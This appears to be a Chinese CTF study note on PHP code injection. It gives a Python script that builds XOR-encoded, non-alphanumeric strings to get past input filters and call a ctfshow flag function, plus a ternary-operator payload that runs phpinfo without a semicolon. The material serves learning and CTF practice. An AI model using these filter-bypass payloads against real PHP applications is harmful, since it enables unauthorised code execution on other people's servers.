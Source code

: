 原理是 PHP 7 支持以 `($a)($b)` 的形式调用函数并传参

[https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

python 脚本

```python
import re

preg = '[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\-]+'

def convertToURL(s):
    if s < 16:
        return '%0' + str(hex(s).replace('0x', ''))
    else:
        return '%' + str(hex(s).replace('0x', ''))

def generateDicts():
    dicts = {}
    for i in range(256):
        for j in range(256):
            if not re.match(preg, chr(i), re.I) and not re.match(preg, chr(j), re.I):
                k = i ^ j
                if k in range(32, 127):
                    if not k in dicts.keys():
                        dicts[chr(k)] = [convertToURL(i), convertToURL(j)]
    return dicts

def generatePayload(dicts, payload):
    s1 = ''
    s2 = ''
    for s in payload:
        s1 += dicts[s][0]
        s2 += dicts[s][1]
    return f'("{s1}"^"{s2}")'

dicts = generateDicts()
a = generatePayload(dicts, r'get_ctfshow_fl0g')
print(a)
```

运算方式可以自己改

按位取反 `~` 的话直接在 PHP 里面写就行了

## 三目运算符

有时候构造不带分号 payload 时需要用到三目运算符

```php
return 1?phpinfo():1;
```

1 永远为 true, 于是正常执行 phpinfo
